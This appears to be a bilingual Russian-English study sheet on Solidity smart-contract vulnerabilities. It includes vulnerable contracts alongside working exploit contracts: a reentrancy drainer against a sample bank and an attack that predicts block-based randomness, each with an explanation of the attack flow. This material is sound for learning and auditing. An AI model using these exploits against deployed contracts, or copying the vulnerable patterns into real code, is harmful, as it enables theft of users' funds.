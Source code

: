 ## VULNERABLE TX.ORIGIN:  

```
// При вызове функции напрямую пользователем, msg.sender и tx.origin будут одинаковыми — это будет адрес пользователя.
contract Example {
    function checkSender() external view returns (address, address) {
        return (msg.sender, tx.origin);
    }
}

/*
В этом случае:
- msg.sender в контракте Example будет адресом контракта A.
- tx.origin в контракте Example будет адресом пользователя, который инициировал транзакцию.
*/
contract A {
    Example example;
    constructor(address _example) {
        example = Example(_example);
    }

    function callCheckSender() external view returns (address, address) {
        return example.checkSender();  // Вызов функции через другой контракт
    }
}

```

Когда пользователь вызывает контракт через другой контракт, tx.origin будет равен адресу пользователя, а msg.sender будет адресом контракта, который вызвал вашу функцию.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### VULNERABILITI IN ABI.ECNCODEPACKED():  

This function vulnerable to collision: https://docs.soliditylang.org/en/latest/abi-spec.html#non-standard-packed-mode  

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### VULNERABILITY IN SELFDESTRUCT():  

В смарт-контрактах функция **selfdestruct()** - это специальная функция, используемая в основном для прекращения работы контракта при определенных обстоятельствах и освобождения связанных с ним ресурсов.  

Основная цель функции **selfdestruct()** - позволить создателям контрактов уничтожить развернутый смарт-контракт.  

При срабатывании функции **selfdestruct()** смарт-контракт будет окончательно удален, а оставшиеся Ether, хранящиеся в контракте, будут отправлены на указанный целевой адрес. В то же время все данные и функции, связанные с контрактом (хранилище и код удалены из состояния), больше не будут доступны. Функция **selfdestruct()** может использоваться для отказа от контрактов, которые больше не используются, обновления версий контрактов или решения потенциальных проблем безопасности.  

Vulnerable code snippet: ```selfdestruct(payable(msg.sender));``` - после выполнения функции контракт будет уничтожен, а все срадства будут перечисленны на указанный адресс.  

Также, функция **selfdestruction()** может переводить средства без согласия цели. Именно из-за этой "принудительной передачи" функции **selfdestruction()** злоумышленники могут использовать ее, чтобы повлиять на нормальную функциональность целевого контракта. Например, если разработчики используют address(this).balance для извлечения баланса токенов в контракте, они могут быть уязвимы для атаки.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### AUDIT METADATA:  

```solc --metadata [Contract.sol]```

Decode smart contract bytecode : https://playground.sourcify.dev/  

IPFS: https://gateway.pinata.cloud/ipfs/QmVQjAYYszSmEmYKWHusx8TwzF5vTYjCv8PUEJLXUfNjce

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### INTEGER UNDERFLOW AND OVERFLOW:  

https://metaschool.so/articles/integer-overflow-and-underflow-in-solidity  

#### REENTRANCY:  

Vulnerable Contract:  
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

contract EthBank {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external payable {
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "failed to send ETH");
        balances[msg.sender] = 0; // Vulnerability here.
    }
}

```

Exploit code:  

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

contract EthBankExploit {
    IEthBank public bank;

    constructor(address _bank) {
        bank = IEthBank(_bank);
    }

    receive() external payable { // 
        if (address(bank).balance >= 1 ether) {
            bank.withdraw();
        }
    }

    function pwn() external payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

#### INSECURE SOURCE OF RANDOMNESS:  

Vulnerable contract:  

```
contract RandomNumber {

    constructor public payable {}

    function guess(uint _guess) public {
        uint answer = uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        if (_guess == answer) {
            (bool sent,) = msg.sender.call{value: 1 ether}("");
            require(sent, "Fail");
        }
    }
}
```

Attack contract:  

```
contract Attack {
    fallback() external payable {}

    function attack(RandomNumber randomNumber) {
        uint answer = uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        randomNumber.guess(answer);
    }
}
```

Атакующий контракт, и уязвимый контракт работают в одном блоке, потому что вызов контракта-атакующего инициируется внешним пользователем, и все транзакции, вызванные в рамках этой операции, обрабатываются в контексте одного блока.  

**Эфир и обработка транзакций**:  

В Ethereum каждая транзакция включается в блок и выполняется в рамках его характеристик (например, blockhash, block.timestamp, block.number).
Если одна транзакция вызывает несколько контрактов (через вызовы call или delegatecall), все эти вызовы происходят в том же самом блоке, используя одну и ту же информацию о блоке.

**Контекст вызова**:  

Когда атакующий контракт вызывает уязвимый контракт через: ```randomNumber.guess(answer);```, оба контракта работают в рамках одной транзакции, обработанной майнером.
Таким образом, вызов block.timestamp и blockhash(block.number - 1) в атакующем контракте возвращает те же самые значения, что и в уязвимом контракте, потому что это одна и та же транзакция.  

**Ход выполнения атаки**:  

```
Атакующий разворачивает свой контракт (Attack) и вызывает его функцию attack, передавая адрес уязвимого контракта (RandomNumber).

Вызов функции attack создаёт транзакцию, которая попадает в пул транзакций майнеров и в конечном итоге включается в новый блок.

Когда транзакция обрабатывается:
    Внутри attack вычисляется "случайное" число с помощью keccak256 на основе blockhash(block.number - 1) и block.timestamp.
    Затем вызывается randomNumber.guess(answer), используя тот же контекст блока. Внутри guess повторно вычисляется то же самое значение keccak256, потому что входные данные (хэш блока и метка времени) остаются идентичными.

Уязвимый контракт считает, что _guess совпал с "случайным" числом, и отправляет 1 эфир атакующему.
```  

